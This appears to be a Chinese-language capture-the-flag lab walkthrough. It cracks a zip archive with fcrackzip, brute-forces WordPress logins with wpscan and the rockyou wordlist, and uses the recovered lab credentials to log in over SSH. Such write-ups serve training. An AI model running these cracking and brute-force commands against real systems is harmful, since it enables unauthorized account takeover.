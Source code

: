 fcrackzip -v -D -u -p pass.txt t0msp4ssw0rdz.zip
2分钟左右~~~
PASSWORD FOUND!!!!: pw == bevH00tr$1995

解压文件：
unzip t0msp4ssw0rdz.zip
bevH00tr$1995
inflating: passwords.txt

获得一个txt文本信息！发现了三个用户名和密码：
---------
Username: bigtommysenior
Password: fatguyinalittlecoat

Note: after the "fatguyinalittlecoat" part there are some numbers, but I don't remember what they are.
However, I wrote myself a draft on the company blog with that information.
-------
在fatguyinalittlecoat后面还有一些数字信息，但是不太记得了，但是在公司博客上用信息给自己写了一份草稿中有记录！！这估计是告诉要登录wordpress站后台进行查看！！


wordpress后台暴力破解：

wpscan --url http://192.168.253.190/prehistoricforest/ -eu
发现用户名：
tommy
richard
tom
michelle


项目三十二讲解过wpscan爆破：注意要关闭us-agent插件
wpscan -U tom -P /root/Desktop/rockyou.txt --max-threads 50 --url http://192.168.253.190/prehistoricforest/
[SUCCESS] - tom / tomtom1                         
Trying tom / skittles2 Time: 00:02:54 <
3分钟爆破出了密码！！


http://192.168.253.190/prehistoricforest/wp-login.php
tom
tomtom1

登录后在：My "ess ess eight" password
发现：1938!!

用户和密码：
bigtommysenior
fatguyinalittlecoat1938!!


----------------------------------
----------------------------------
flag4：
内网信息收集

ssh bigtommysenior@192.168.253.190
fatguyinalittlecoat1938!!
